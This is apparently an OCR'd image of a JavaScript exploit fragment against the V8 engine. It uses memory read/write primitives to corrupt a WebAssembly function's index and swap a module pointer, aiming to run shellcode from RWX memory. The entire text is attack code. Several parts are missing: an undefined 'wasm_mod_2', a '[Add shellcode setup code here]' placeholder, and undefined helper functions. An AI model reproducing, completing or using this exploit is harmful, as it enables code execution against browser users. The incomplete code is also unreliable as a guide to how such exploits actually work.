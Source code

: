 ```javascript
let indirect = wasm_instance_0.exports.indirect;

// Step 3: Create second WASM module (Module 1) that calls Module 0's function indirectly
let wasm_code_1 = new Uint8Array([
    0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x0a, 0x02, 0x60,
    0x00, 0x01, 0x7d, 0x60, 0x01, 0x7d, 0x01, 0x7d, 0x02, 0x0d, 0x01, 0x03,
    0x65, 0x6e, 0x76, 0x03, 0x72, 0x74, 0x62, 0x01, 0x70, 0x00, 0x01, 0x03,
    0x02, 0x01, 0x01, 0x07, 0x08, 0x01, 0x04, 0x6d, 0x61, 0x69, 0x6e, 0x00,
    0x00, 0x0a, 0x0c, 0x01, 0x0a, 0x00, 0x41, 0x00, 0x11, 0x00, 0x00, 0x20,
    0x00, 0x94, 0x0b
]);

let wasm_mod_1 = new WebAssembly.Module(wasm_code_1);
let wasm_instance_1 = new WebAssembly.Instance(wasm_mod_1, importObject);

// Step 4: Create Module 2 with many functions to bypass size check
// This module should contain a large number of functions
// 

// Step 5: Set up the exploit
console.log("[*] Gathering info about Wasm Exported Function");
let addr_wasm_function = addrOf(indirect);
let shared_info = v8_read64(addr_wasm_function + 0x10n) & 0xFFFFFFFFn;
let function_data = v8_read64(shared_info - 1n + 0x8n) & 0xFFFFFFFFn;
let addr_function_data_index = function_data - 1n + 0x14n;

// Step 6: Modify function index
console.log("[*] Writing new index in Wasm Function Data");
let current_value = v8_read64(addr_function_data_index);
console.log("\t[i] Current Function data index: ", ToHex(current_value));

// Calculate new index that will point to our shellcode
let new_index = current_value & 0xffffffff00000000n | smi(401n);
console.log("\t[i] New Function data index: ", ToHex(new_index));

// Step 7: Swap Module 2 with Module 0 in Instance 0 to bypass size check
console.log("[*] Writing module 2 in instance 0");
let addr_wasm_module_2 = addrOf(wasm_mod_2); // assuming wasm_mod_2 was created
console.log("\t[i] Current Module 0: ", ToHex(addr_wasm_module_0));
console.log("\t[i] New Module 0: ", ToHex(addr_wasm_module_0 & 0xffffffff00000000n | addr_wasm_module_2));

// Perform the module swap
v8_write64(addr_wasm_instance_0 + 0x10n, addr_wasm_module_0 & 0xffffffff00000000n | addr_wasm_module_2);

// Step 8: Write the modified function index
v8_write64(addr_function_data_index, new_index);

// Step 9: Setup shellcode in WASM RWX memory using Liftoff compiled floating points
// [Add shellcode setup code here]

// Step 10: Trigger the exploit
rtb.set(0, indirect); // This will now use our modified index
wasm_instance_1.exports.main(1000); // This will trigger our shellcode

```






